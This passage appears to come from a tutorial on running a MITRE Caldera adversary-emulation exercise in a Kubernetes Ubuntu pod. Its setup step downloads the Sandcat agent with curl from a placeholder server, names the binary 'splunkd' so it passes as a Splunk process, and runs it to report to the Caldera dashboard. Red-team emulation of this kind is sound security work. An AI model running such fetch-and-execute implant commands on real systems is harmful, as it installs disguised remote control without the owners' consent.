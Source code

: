 3. Access the Ubuntu pod:
    ```bash
    kubectl exec -ti ubuntu-deployment-xxxxxxx bash
    ```
4. Install nano for creating the agent.sh file.
    ```bash
    apt update -y && apt install nano -y
    ```

4. Inside the pod, install necessary packages and set up the Caldera agent:
    ```bash
    apt update -y 
    apt install curl -y

    server="http://<SERVER_IP>:8888"
    socket="<SERVER_IP>:7010"
    curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd
    chmod +x splunkd
    ./splunkd -server $server -group red -v
    ```

After running these commands, you should see the agent is live on the Caldera dashboard under the "Agents" tab.

![](assets/4.png)

### Creating and Running an Operation

1. Create a new adversary profile named "Demo" and add the abilities:
   - Hostname discover
   - Test (previously created with the YAML file and placed in the appropriate directories)

![](assets/5.png)
